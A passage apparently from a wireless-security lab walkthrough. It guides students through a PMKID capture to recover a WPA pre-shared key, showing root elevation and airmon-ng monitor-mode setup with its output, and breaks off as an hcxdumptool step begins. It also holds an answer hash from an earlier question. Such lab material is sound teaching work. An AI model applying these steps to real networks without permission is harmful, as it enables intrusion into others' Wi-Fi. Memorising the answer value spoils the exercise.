 Answer: `5ec1e2effa2da684c8925b9a86cea90d15a5de70`

# PMKID Attack

## Question 2

### "Perform the PMKID capture as demonstrated in this section. What is the discovered value of the WPA PSK?"

Students will reuse the previously established RDP session and will elevate to the `root` user:

Code: shell

```shell
sudo -s
```

```
wifi@WiFiIntro:~$ sudo -s
```

Next, students will enable monitor mode on the `wlan0` interface using `airmon-ng`:

Code: shell

```shell
sudo airmon-ng start wlan0
```

```
root@WiFiIntro:/home/wifi# sudo airmon-ng start wlan0

Found 4 processes that could cause trouble.
Kill them using 'airmon-ng check kill' before putting
the card in monitor mode, they will interfere by changing channels
and sometimes putting the interface back in managed mode

    PID Name
    185 avahi-daemon
    206 wpa_supplicant
    213 avahi-daemon
    225 NetworkManager

PHY	Interface	Driver		Chipset

phy1	wlan0		htb80211_chipset	HTB ChipSet of 802.11 radio(s) for mac80211

		(mac80211 monitor mode vif enabled for [phy1]wlan0 on [phy1]wlan0mon)
		(mac80211 station mode vif disabled for [phy1]wlan0)
```

Subsequently, students will use the `wlan0mon` interface using `hcxdumptool` to scan for networks with PMKID using the `--enable_status=3`:

Code: shell
